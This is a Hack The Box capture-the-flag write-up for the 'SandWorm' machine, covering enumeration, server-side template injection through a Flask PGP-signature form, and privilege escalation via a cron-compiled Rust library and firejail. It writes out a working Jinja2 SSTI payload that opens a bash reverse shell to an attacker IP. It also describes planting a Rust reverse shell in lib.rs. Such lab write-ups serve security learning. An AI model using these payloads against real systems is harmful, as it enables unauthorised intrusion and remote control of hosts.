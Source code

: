 ```yaml
---
title: SandWorm Hack The Box 
date: 2023-07-25 22:50:30 +/-TTTT
categories: [Hack The Box, SandWorm]
tags: [SandWorm HTB] 
image:
  path: /assets/img/htb/sandworm/logo.jpg
---
```



## Work Flow
![image]( /assets/img/htb/sandworm/workflow.png)

## Enumeration
 Use nmap to scan this machine
![image]( /assets/img/htb/sandworm/nmap.png)

Go to the website. I know it is the Flask framework. Click the guide to see more.
![image]( /assets/img/htb/sandworm/web2.png)

## Exploit
Exploit at contact -> search exploit pgp flask and follow the guide to verify signature

- Create pgp key at https://pgpkeygen.com/ 
<p>
Try the payload  {% raw %}{{7*7}}{% endraw %} at name, after verify the signature I see the return value is 49 => so I can exploit SSTI vulnerability (Server Side Template Injection) at the name  -> copy the private key and the passwd when crating the key to sig at http://www.2pih.com/pgp.html
</p>
 

![image]( /assets/img/htb/sandworm/payload.png)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2 
 
Use payload call OS and exploit
```shell
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen(“bash -c ' bash -i >& /dev/tcp/10.10.14.31/4444 0>&1'”).read() }}{% endraw %} 
  
```

 PGP signature link: http://www.2pih.com/pgp.html
![image]( /assets/img/htb/sandworm/key.png) 

Copy the public key and the signed certificate to verify the signature -> rce 
![image]( /assets/img/htb/sandworm/sig.png) 
![image]( /assets/img/htb/sandworm/nc.png) 
 Recon all file in atlas to find the password
![image]( /assets/img/htb/sandworm/getaccount.png)
okay let's login to the machine 
![image]( /assets/img/htb/sandworm/login.png)

## Escalation

![image]( /assets/img/htb/sandworm/root1.png)
 
To get user root access from user silentobserver I must exploit to login with user atlas. The user atlas earlier was docker, unable to execute all commands.
 Check the cron job. I will use the cron job to get user atlas
![image]( /assets/img/htb/sandworm/root_recon1.png)
![image]( /assets/img/htb/sandworm/root_recon2.png)
![image]( /assets/img/htb/sandworm/root_recon3.png)
 Search for a reverse shell program in the Rust language (https://github.com/LukeDSchenk/rust-backdoors/blob/master/reverse-shell/src/main.rs )and edit file lib.rs

Create a file lib.rs at attacker machine after that user silentobserver performs the download (Note: edit file lib.rs takes a long time and file is deleted every 2mins -2minutes file executes 1 time)

![image]( /assets/img/htb/sandworm/edit_payload.png)
![image]( /assets/img/htb/sandworm/get_payload.png)
![image]( /assets/img/htb/sandworm/connect.png)
 From user atlas, escalate to root by firejail (atlas và root both belong to the group jailer)
![image]( /assets/img/htb/sandworm/root_recon4.png)
 Exploit firejail to get root ( https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ )

![image]( /assets/img/htb/sandworm/exploit.png)
